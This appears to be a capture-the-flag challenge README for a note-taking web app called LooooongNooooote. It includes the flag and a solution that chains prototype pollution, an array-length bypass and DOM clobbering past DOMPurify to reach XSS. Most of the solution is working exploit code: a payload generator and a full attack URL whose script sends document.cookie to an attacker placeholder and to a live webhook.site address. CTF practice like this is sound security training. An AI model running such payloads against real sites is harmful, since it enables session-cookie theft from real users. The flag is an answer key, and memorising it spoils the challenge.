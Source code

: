 # LooooongNooooote

**Author** : DreyAnd    
**Difficulty** : <font color='red'>Hard</font>  
**Description** : AAAAAH, someone has ruined ShortNote! It's time for revenge. This time, I've come up with a new, modern note-taking app, I even apply sanitization! 😈

**Infrastructure requirements** : docker, zip

Flag: `SCC{Th1s_W4s_T00_l000ng_S0rry_AAAAAAAAAA!}`

# Solution <writeup to-be-done>:

**TLDR**: CSPP + `length` bypass via array slice overflow + DOM Clobbering to bypass DOMPurify -> XSS

Payload generator:
```js
let payload = '<a id="debug"></a><a id="debug" name="timeout" href="cid:fetch(`https://ATTACKER/?c=${encodeURIComponent(document.cookie)}`)"></a>'
let exp = "noteContent[]=A&";

for (let i = 0; i < 36; i++) {
    if (i == 34) {
        exp += "noteContent[]=A"
        break
    }
    if (i == 23) {
        exp += `noteContent[]=${payload}&`;
    } else {
        exp += "noteContent[]=A&";
    }
}

console.log(exp);
```

Solution URL to submit to bot:
```
http://localhost:7777/?username=__proto__&noteName=uuid&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=<a%20id="debug"></a><a%20id="debug"%20name="timeout"%20href="cid:fetch(`https://webhook.site/d1c6a1f8-24af-44c7-b6ce-1ee0e18440d4/?c=${encodeURIComponent(document.cookie)}`)"></a>&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&noteContent[]=A&previewNote=1
```
